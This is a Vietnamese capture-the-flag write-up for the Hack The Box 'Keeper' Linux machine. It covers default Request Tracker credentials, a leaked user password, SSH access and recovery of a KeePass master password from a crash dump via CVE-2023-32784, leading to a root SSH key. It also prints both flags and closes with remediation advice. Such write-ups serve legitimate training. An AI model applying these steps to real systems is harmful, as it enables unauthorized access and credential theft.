






>[!NOTE]
>Mức độ: Dễ 
>Nền tảng: Linux 
>Url: https://app.hackthebox.com/machines/Keeper
>Mô tả: Keeper là một máy ảo Linux có độ khó thấp, trong đó có một hệ thống quản lý phiếu yêu cầu hỗ trợ (support ticketing system) đang sử dụng thông tin đăng nhập mặc định. Thông qua quá trình liệt kê (enumerate) dịch vụ, chúng ta có thể tìm thấy các thông tin đăng nhập dạng văn bản thuần (clear text), từ đó truy cập được vào hệ thống qua SSH. Với quyền truy cập SSH, chúng ta có thể lấy được tệp cơ sở dữ liệu KeePass, rồi sử dụng nó để khôi phục mật khẩu chính (master password). Khi đã truy cập được vào cơ sở dữ liệu KeePass, chúng ta có thể lấy được các khóa SSH của người dùng root, cho phép giành quyền truy cập với đặc quyền cao nhất (privileged shell) trên máy chủ.

# Recon 

## Port scan 
```bash
└─$ nmap -sSVC -Pn 10.129.229.41  
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-17 10:11 -0400
Nmap scan report for 10.129.229.41
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.87 seconds
```

> Có 2 cổng được mở cho dịch vụ ssh, http 

## Web 

> Truy cập dịch vụ web phát hiện tên miền phụ mới `tickets.keeper.htb`
> Thêm tên miền phụ vào file /etc/hosts 



> Truy cập tên miền phụ phát hiện dịch vụ Request Tracker 
> https://en.wikipedia.org/wiki/Request_Tracker
> Request Tracker, thường được viết tắt là RT, là một công cụ mã nguồn mở dùng để theo dõi và quản lý các quy trình làm việc, yêu cầu từ khách hàng cũng như các nhiệm vụ trong dự án nội bộ.



> Người dùng vẫn chưa đổi thông tin xác thực mặc định nên chúng ta có thể đang nhập vào dịch vụ `root:password`
> https://wiki.gentoo.org/wiki/Request_Tracker

> Phát hiện 1 ticket chứa thông tin về file đính kèm là file dump khi chương trình keypass crash được gửi cho lise 
> Lise đã comment là đã tải dile và lưu về thư mục người dùng và xóa file đính kèm nên chúng ta chưa phân tích được.



> Liệt kê người dùng thấy thông tin xác thực của Lise `lnorgaard:Welcome2023!`




# Exploit

> Kết nối với máy qua SSH với thông tin xác thực `lnorgaard:Welcome2023!`

```
─$ ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

> User Flag
```
1b0c581c1cffebde1065700493e771f8
```

# Privelege Escalation

> Liệt kê thư mục người dùng phát hiện file zip chứa file crash dump của chương trình keypass 

```
lnorgaard@keeper:~$ ls -al
total 85384
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25  2023 .
drwxr-xr-x 3 root      root          4096 May 24  2023 ..
lrwxrwxrwx 1 root      root             9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24  2023 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23  2023 .profile
-rw-r--r-- 1 root      root      87391651 Oct 17 16:32 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard       33 Oct 17 16:08 user.txt
-rw-r--r-- 1 root      root            39 Jul 20  2023 .vimrc
```

> Giải nén phát hiện 2 :
> + File KeePassDumpFull.dmp chứa dữ liệu, trạng thái,.. khi chương trình keypass bị crash 
> + File passcodes.kdbx là file cơ sở dữ liệu lưu thông tin xác thực của Keypass, cần mật khẩu để giải mã 
> Phiên bản Keepass là 2.x
> https://en.wikipedia.org/wiki/KeePass
```
└─$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```

> Keepass 2.x tồn tại lỗ hổng bảo mật cho phép trích xuất thông tin xác thuwcj từ file crash dump có thể trích xuất thông tin xác thwucj trừ kí tự đầu tiên 
> https://nvd.nist.gov/vuln/detail/cve-2023-32784
> https://github.com/vdohney/keepass-password-dumper
> Chạy chương trình trích xuất ta lấy được thông tin `M}dgrod med flode`
> Dựa vào tìm kiếm phát hiện có thể mật khẩu liên quan đến 1 loại bánh Đan Mạch `Rødgrød med fløde` 
> https://www.valdemarsro.dk/roedgroed-med-floede/
> Thông tin mật khẩu của file keypass liên quan đến loại bánh này `rødgrød med fløde`

> Giải mã file csdl bằng password và liệt kê thu được putty key 



> Lưu thông tin putty key vào 1 file và chuyển đổi sang định dạng openssh 

```
puttygen id_dsa.ppk -O private-openssh -o id_dsa
```

> Dùng ptty key đó để kết nối đến hệ thống với tài khoản root 
```
└─$ ssh -i id_dsa root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
```

> Root Fkag 
```
8bf3118f1350cac4ef858d18fe64daa1
```

# Kết luận

> [!NOTE]
> - Đây là phỏng khai thác các lỗ hổng tái sử dụng mật khẩu, lỗ hổng của hệ thống keypass 
> - Khắc phục
>   + Cập nhật thông tin xác thực mặc định của Request Tracker, xóa các comment chứa thông tin xác thực  
>   + Cập nhật phiên bản Keepass, xóa zip chứa file csdl keepass